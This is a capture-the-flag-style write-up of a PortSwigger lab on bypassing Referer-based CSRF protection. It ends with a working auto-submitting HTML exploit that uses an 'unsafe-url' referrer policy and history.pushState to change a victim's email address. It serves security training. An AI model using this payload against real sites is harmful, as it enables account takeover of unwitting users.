

# CSRF with broken Referer validation
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email`. In order to send valid request to change email, `Referer` header have to contain correct domain. Lack of `Referer` header in request results in `400 Bad Request`.

||
|:--:| 
| *Test of change email functionality* |
||
| *Modified Referer header - header is validated in change email reqeust* |
||
| *Successful request with modified referer header* |

## Exploitation
Browsers strip query string from `Referer` header. This behaviour can be bypassed via `Referrer-Policy: unsafe-url` (SPELLING). Code `history.pushState()` allows to change the URL in the address bar without reloading the page - it preapares URL (`Referer` header) for next request. 

```html
<html>
  <head>
    <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="https://<id>.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?q=https://<id>.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

||
|:--:| 
| *Exploit server configuration* |

